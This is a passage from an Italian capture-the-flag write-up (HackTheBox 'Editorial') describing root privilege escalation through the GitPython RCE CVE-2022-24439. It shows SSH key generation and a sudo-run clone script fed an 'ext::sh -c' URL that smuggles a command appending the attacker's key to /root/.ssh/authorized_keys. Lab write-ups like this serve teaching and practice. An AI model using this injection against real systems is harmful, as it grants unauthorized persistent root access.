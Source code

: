 
Cercando in internet scopriamo che questa versione di sembra essere affetta da un [RCE](https://github.com/gitpython-developers/GitPython/issues/1515) e relativa alla [CVE2022-24439](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

Visto che questa RCE ci consente di leggere, modificare e aggiungere file con privilegi di root 
quello che andremmo a fare e creare una coppia di chiavi rsa, una pubblica e una privata.

Quella pubblica poi  l'andremmo ad aggiungere in `/root/.ssh/autohorized_keys`

ci creiamo la coppia di chiavi 

```bash
┌──(kali㉿kali)-[~/htb/editorial]
└─$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in id_rsa
Your public key has been saved in id_rsa.pub
The key fingerprint is:
SHA256:MbJoZ5Yd8SAxm+7Z32Hi16DQCtNtvsrLrmoIC4EKDxU kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|  E.  +.o        |
|  .    = +       |
|..    + + .      |
|=    o = +       |
|o+  o B.So       |
|+ .. =ooo + .    |
|.o .  oo.=..oo   |
|. . .  o.oo+...  |
|   ....o*o+o.    |
+----[SHA256]-----+

┌──(kali㉿kali)-[~/htb/editorial]
└─$ ls
7aae57cd-0763-489e-9e27-f8ce29a21348  86015df5-64a9-4769-9176-cff2dff9ef29  id_rsa  id_rsa.pub  request.txt
```

Copiamo la `ida_rsa.pub` nella cartella `/tmp` del target e la rinominiamo `authotized_keys`
e siamo pronti ed utilizzare la RCE nel seguente modo.

```bash
prod@editorial:/tmp$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /tmp/authorized_keys% >>% /root/.ssh/authorized_keys'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cat% /tmp/authorized_keys% >>% /root/.ssh/authorized_keys new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
```